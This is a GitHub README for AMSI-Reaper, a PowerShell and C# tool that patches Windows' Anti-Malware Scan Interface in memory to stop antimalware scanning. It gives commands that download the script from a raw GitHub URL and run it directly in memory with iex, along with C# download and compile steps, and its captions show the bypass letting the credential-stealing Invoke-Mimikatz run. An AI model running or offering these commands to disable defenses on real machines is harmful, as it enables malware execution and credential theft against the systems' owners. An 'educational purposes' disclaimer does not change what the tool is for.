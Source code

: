 # AMSI-Reaper
![reaper](https://github.com/h0ru/AMSI-Reaper/assets/117091833/24861e69-df06-477d-8844-a0d4015ef830)
## Overview
- AMSI-Reaper is a tool developed in both PowerShell and C# (.NET Framework v4.0) designed to bypass the Anti-Malware Scan Interface [(AMSI)](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal) in Windows.
- AMSI is a built-in security feature in Windows that allows applications and services to integrate with antimalware products.
- By default, it provides a layer of protection against potentially malicious scripts and code executed in applications like PowerShell. 
- Check out more on the [YouTube Video](https://youtu.be/rNGQpjJ2rXg?feature=shared)

## Features
- Bypass AMSI: AMSI-Reaper injects code into the memory of the AMSI components, preventing them from interfering with your scripts.
- PowerShell and C# Support: The tool is available in both [PowerShell](https://github.com/h0ru/AMSI-Reaper/blob/main/src/AMSI-Reaper.ps1) and [C#](https://github.com/h0ru/AMSI-Reaper/blob/main/src/AMSI-Reaper.cs) versions, making it adaptable to different use cases.

## Usage
- *__AMSI-Reaper requires Administrator privileges to function correctly. Please run the tool as an Administrator.__*
### PowerShell Version
- __Download__
```
iex (iwr https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.ps1)
```
```
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.ps1')
```
### C# Version
- __Download__
```
wget https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.cs -O AMSI-Reaper.cs
```
```
iwr https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.cs -O AMSI-Reaper.cs
```
- __Compile__
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe AMSI-Reaper.cs
```
## Disclaimer
- *__The AMSI-Reaper tool is meant for educational and research purposes only. The author is not responsible for any misuse, damage, or legal consequences caused by the use of this tool.__*

## Images
- *Invoke-Mimikatz is detected and blocked by AMSI*
![image1](https://github.com/h0ru/AMSI-Reaper/assets/117091833/6dba8127-9fec-41ec-ba8d-f70d01678dea)
- *With AMSI-Reaper in PowerShell, we can request and use it from the command line in real-time, all in memory.*
![image2](https://github.com/h0ru/AMSI-Reaper/assets/117091833/dbcf74d0-a3c3-4e64-a024-3b2bea604f37)
- *Alternatively, you can also use AMSI-Reaper in C# with native Windows features by compiling it with csc.*
![image3](https://github.com/h0ru/AMSI-Reaper/assets/117091833/8906a6ab-d2d8-4ace-906c-2e0869040aa7)
